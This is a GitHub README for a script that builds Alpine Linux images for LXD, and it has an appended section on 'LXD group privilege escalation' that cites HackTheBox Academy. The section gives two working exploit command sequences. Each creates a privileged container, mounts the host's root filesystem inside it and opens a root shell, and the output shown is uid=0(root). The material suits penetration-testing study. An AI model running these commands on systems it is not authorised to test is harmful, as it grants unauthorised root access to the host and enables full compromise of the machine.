 
# LXD Alpine Linux image builder

This script provides a way to create [Alpine Linux](http://alpinelinux.org/)
images for their use with [LXD](https://linuxcontainers.org/lxd/).
It's based off the LXC templates.

The image will be built just by installing the `alpine-base` meta-package.
Networking and syslog are enabled by default.


## Usage

In order to build the latest Alpine image just run the script (must be done
as root):

    sudo ./build-alpine

For more options check the help:

    sudo ./build-alpine -h

After the image is built it can be added as an image to LXD as follows:

    lxc image import alpine-v3.3-x86_64-20160114_2308.tar.gz --alias alpine-v3.3


## LXD group privilege escalation
Source (method-1): https://academy.hackthebox.com/module/51/section/477

Source (method-2): https://academy.hackthebox.com/module/51/section/1588

- Confirm the group
`id`

- Clone the repository
```
git clone https://github.com/ertaku12/lxd-alpine-builder.git

cd lxd-alpine-builder
```

- Find the binary

```
find / -type f -name lxc 2>/dev/null

find / -type f -name lxd 2>/dev/null
```

- Exploit method-1
```bash
lxd init

lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine

lxc init alpine r00t -c security.privileged=true

lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

lxc start r00t

lxc exec r00t /bin/sh

# id
uid=0(root) gid=0(root)

```

- Exploit method-2
```bash
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias ubuntutemp

lxc image list

lxc init ubuntutemp privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

lxc start privesc

lxc exec privesc /bin/bash

# id
uid=0(root) gid=0(root)

```



## License

This script uses the same license as the script it was derived from: LGPL 2.1

